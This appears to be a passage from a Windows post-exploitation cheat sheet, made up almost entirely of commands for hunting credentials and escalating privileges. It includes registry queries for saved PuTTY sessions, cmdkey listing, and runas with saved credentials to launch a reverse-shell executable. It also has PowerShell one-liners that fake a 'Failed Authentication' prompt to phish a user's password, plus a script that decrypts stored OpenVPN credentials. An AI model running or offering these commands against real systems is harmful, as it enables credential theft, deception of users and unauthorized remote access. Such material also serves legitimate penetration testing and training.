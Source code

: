 ```
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

### search windows credential manager

```
cmdkey /list
```

to use windows "runas" feature to get a reverse shell:

```
runas /savecred /user:admin C:\PrivEsc\reverse.exe 
```

### kindly asking user for credentials ( phishing )

```
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

or

```
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'admin',[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

### log files

```
# IIS
C:\inetpub\logs\LogFiles\*
​
#Apache
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
```

### OpenVPN credentials

```
Add-Type -AssemblyName System.Security
$keys = Get-ChildItem "HKCU:\Software\OpenVPN-GUI\configs"
$items = $keys | ForEach-Object {Get-ItemProperty $_.PsPath}
​
foreach ($item in $items)
{
  $encryptedbytes=$item.'auth-data'
  $entropy=$item.'entropy'
  $entropy=$entropy[0..(($entropy.Length)-2)]
​
  $decryptedbytes = [System.Security.Cryptography.ProtectedData]::Unprotect(
    $encryptedBytes, 
    $entropy, 
    [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
 
  Write-Host ([System.Text.Encoding]::Unicode.GetString($decryptedbytes))
}
```
